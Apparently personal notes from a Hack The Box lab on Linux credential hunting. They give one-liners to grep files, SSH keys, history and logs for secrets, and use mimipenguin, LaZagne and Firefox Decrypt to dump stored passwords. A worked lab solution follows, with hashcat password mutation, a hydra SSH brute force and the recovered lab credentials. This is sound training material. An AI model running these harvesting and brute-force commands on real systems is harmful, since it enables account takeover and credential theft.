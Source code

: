 
##### Configuration Files
```go
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

##### Credentials in Configuration Files
```go
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

##### Databases
```go
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

##### Credentials in Notes
```go
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

##### Credentials in Scripts
```go
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

##### Cronjobs
```go
ls -la /etc/cron.*/
```

##### SSH Keys

**Private Keys**
```go
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

**Public Keys**
```go
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

##### Bash History
```go
 tail -n5 /home/*/.bash*
```

##### Logs
```go
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

##### Memory and Cache

**Memory - Mimipenguin**
https://github.com/huntergregal/mimipenguin


```go
cry0l1t3@unixclient:~$ sudo python3 mimipenguin.py
[sudo] password for cry0l1t3: 

[SYSTEM - GNOME]	cry0l1t3:WLpAEXFa0SbqOHY


cry0l1t3@unixclient:~$ sudo bash mimipenguin.sh 
[sudo] password for cry0l1t3: 

MimiPenguin Results:
[SYSTEM - GNOME]          cry0l1t3:WLpAEXFa0SbqOHY
```

Lazagne
https://github.com/AlessandroZ/LaZagne

```go
sudo python2.7 laZagne.py all
```

##### Browsers

Firefox
```go
ls -l .mozilla/firefox/ | grep default 
```

```go
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

[Firefox Decrypt](https://github.com/unode/firefox_decrypt) can be used to decrypt the credentials. The latest version requires Python 3.9, else Python 2

Example Usage
```go
datboyblu3@htb[/htb]$ python3.9 firefox_decrypt.py

Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2

Website:   https://testing.dev.inlanefreight.com
Username: 'test'
Password: 'test'

Website:   https://www.inlanefreight.com
Username: 'cry0l1t3'
Password: 'FzXUxJemKm6g2lGh'
```

Lazagne can also collect passwords in browsers
```go
python3 laZagne.py browsers
```

## Questions

Target
```go
10.129.241.137
```

1) Examine the target and find out the password of the user Will. Then, submit the password as the answer.


Nmap results:
```go
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-05-12T20:58:39
|_  start_date: N/A
|_nbstat: NetBIOS name: NIX01, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.08 seconds

```

Generate a list of mutated passwords
```go
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

The hint tells us that the user `Kira` has a password of `LoveYou1`. From the mutated list, grab all passwords that are similar to this password. The first Instance starts at line 42523 to line 52538. Put these in a separate list called `kiras_passwds_list`
```go
sed -n '49006,52538 p' mut_password.list > kiras_passwds_list.txt
```

This can also be done in vi/vim:
```go
:42523,52538w!/tmp/kiras_passwds_list.txt
```

Brute force SSH via hydra
```go
hydra -l kira -P kiras_new_passwds_list.txt ssh://10.129.240.214
```

Password found:
```go
L0vey0u1!
```

![[Pasted image 20250512214626.png]]

### Pivoting in Kira's account

SSH
```go
ssh kira@10.129.239.159
```

Transfer LaZagne to Kira
```go
scp -r firefox_decrypt-1.1.1.zip kira@10.129.239.159:/tmp
```

Executed firefox decrypt on Kira's machine:
![[Pasted image 20250513072313.png]]

Password:
```go
 TUqr7QfLTLhruhVbCP
```

Username:
```go
wwill@inlanefreight.htb
```

Website:
```go
https://dev.inlanefreight.com
```